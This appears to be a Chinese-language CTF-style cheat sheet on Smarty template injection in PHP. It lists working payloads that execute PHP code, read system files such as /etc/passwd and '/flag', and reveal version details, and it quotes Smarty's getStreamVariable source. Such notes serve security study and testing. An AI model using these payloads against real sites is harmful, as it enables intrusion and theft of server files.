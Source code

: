 ![v2-5ffc2b80f722479e9d491b1ea9a3ea7c_r](vx_images/340714820242405.jpg)
## PHP模板引擎
### smarty模板注入
smarty常规利用方式：
```
{$smarty.version} 获取smarty版本号
{php}cmd{/php} 该标签在Smarty3.1中已经废弃
```
{literal}标签可以让一个模板区域的字符原样输出
```
<script language="php">phpinfo();</script>
```
getstreamVariable方法
```
{self::getstreamVariable("file:///ect/passwd")}
```
Smarty类的getStreamVariable方法的代码如下：
```
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```
3.1.30的Smarty已删除该方法。
{if}{/if} 也可使用{else} {elseif} 全部的PHP条件表达式和函数都可以在if内使用，如||,or,&&,and,is_array()等，如`{if is_array($array)}{/if}`
```
{if phpinfo()}{/if}
```
### 常见Smarty模板Payload
```
{if readfile('/flag')}{/if} smarty中的{if}标签中可以执行php语句
{$smarty.version} 返回版本信息
${smarty.template} 返回当前模板的文件名
使用{php}{/php}标签来执行被包裹其中的php指令 3.1版本已经废弃
```